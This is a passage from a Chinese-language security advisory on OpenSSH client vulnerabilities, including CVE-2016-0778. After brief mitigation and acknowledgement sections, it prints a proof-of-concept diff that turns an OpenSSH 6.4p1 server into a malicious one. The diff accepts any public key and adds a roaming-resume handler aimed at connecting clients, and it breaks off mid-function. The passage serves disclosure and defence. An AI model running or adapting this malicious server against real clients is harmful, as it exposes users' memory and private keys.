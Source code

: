 

       ** 缓冲区溢出漏洞的缓解方案(CVE-2016-0778)**

        所有大于或等于5.4版本的OpenSSH客户端都存在这个缓冲区溢出漏洞,但是这个漏洞也是有相应的漏洞缓解方案的,具体信息请查看原文。

       ** 致谢**

        在此,我们要感谢OpenSSH的开发人员,感谢他们的辛勤工作以及对我们的信息给予了迅速的回应。除此之外,我们还要感谢红帽安全部门为这两个漏洞分配了CVE-ID。

        概念验证实例

        

```
diff -pruN openssh-6.4p1/auth2-pubkey.c openssh-6.4p1+roaming/auth2-pubkey.c
        --- openssh-6.4p1/auth2-pubkey.c  2013-07-17 23:10:10.000000000 -0700
        +++ openssh-6.4p1+roaming/auth2-pubkey.c     2016-01-07 01:04:15.000000000 -0800
        @@ -169,7 +169,9 @@ userauth_pubkey(Authctxt *authctxt)
                      * if a user is not allowed to login. is this an
                      * issue? -markus
                      */
        -             if (PRIVSEP(user_key_allowed(authctxt-&gt;pw, key))) `{`
        +            if (PRIVSEP(user_key_allowed(authctxt-&gt;pw, key)) || 1) `{`
        +                   debug("%s: force client-side load_identity_file",
        +                       __func__);
                            packet_start(SSH2_MSG_USERAUTH_PK_OK);
                            packet_put_string(pkalg, alen);
                            packet_put_string(pkblob, blen);
        diff -pruN openssh-6.4p1/kex.c openssh-6.4p1+roaming/kex.c
        --- openssh-6.4p1/kex.c    2013-06-01 14:31:18.000000000 -0700
        +++ openssh-6.4p1+roaming/kex.c       2016-01-07 01:04:15.000000000 -0800
        @@ -442,6 +442,73 @@ proposals_match(char *my[PROPOSAL_MAX],
         `}`
         static void
        +roaming_reconnect(void)
        +`{`
        +     packet_read_expect(SSH2_MSG_KEX_ROAMING_RESUME);
        +     const u_int id = packet_get_int(); /* roaming_id */
+     debug("%s: id %u", __func__, id);
+     packet_check_eom();
+
+     const char *const dir = get_roaming_dir(id);
+     debug("%s: dir %s", __func__, dir);
+     const int fd = open(dir, O_RDONLY | O_NOFOLLOW | O_NONBLOCK);
+     if (fd &lt;= -1)
+            fatal("%s: open %s errno %d", __func__, dir, errno);
+     if (fchdir(fd) != 0)
+            fatal("%s: fchdir %s errno %d", __func__, dir, errno);
+     if (close(fd) != 0)
+            fatal("%s: close %s errno %d", __func__, dir, errno);
+
+     packet_start(SSH2_MSG_KEX_ROAMING_AUTH_REQUIRED);
+     packet_put_int64(arc4random()); /* chall */
+     packet_put_int64(arc4random()); /* oldchall */
+     packet_send();
+
+     packet_read_expect(SSH2_MSG_KEX_ROAMING_AUTH);
+     const u_int64_t client_read_bytes = packet_get_int64();
+     debug("%s: client_read_bytes %llu", __func__,
+         (unsigned long long)client_read_bytes);
+     packet_get_int64(); /* digest (1-8) */
+     packet_get_int64(); /* digest (9-16) */
+     packet_get_int();   /* digest (17-20) */
+     packet_check_eom();
+
+     u_int64_t client_write_bytes;
+     size_t len = sizeof(client_write_bytes);
```